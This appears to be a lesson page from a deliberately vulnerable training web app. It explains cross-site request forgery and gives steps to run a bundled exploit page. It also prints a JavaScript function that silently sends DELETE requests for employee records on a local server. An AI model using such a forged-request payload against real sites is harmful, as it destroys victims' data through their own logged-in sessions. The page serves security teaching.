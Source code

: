 # Cross-Site Request Forgery (CSRF)

 
### Vulnerability description:

OWASP documentation: https://www.owasp.org/index.php/Top_10_2013-A8-Cross-Site_Request_Forgery_(CSRF)

Imagine you get an e-mail that would fool you in clicking an image. The onclick event on this image activates a JavaScript AJAX request to a DELETE action on the back-end to a user account.

Now if you have a running session, where you are logged in (authenticated) to the vulnerable website, this request would delete a user, and you wouldn't be aware what you did.


### Example of Attack

1. Login to the insecure-web-app
2. Go to the folder `A8-Cross-Site Request Forgery (CSRF)\exploit`
3. Run index.html
4. Click on the prize :-)

### Analysis of the Attack

If you open the `exploit\index.html` you will see this function

```
function callDelete() {
    for (let i = 0; i < 10; i++) {
        var url = "http://localhost:9080/employees?id=" + i;
        
        var xhttp = new XMLHttpRequest();
        xhttp.open("DELETE", url, true);
        xhttp.send();
    }
}
```

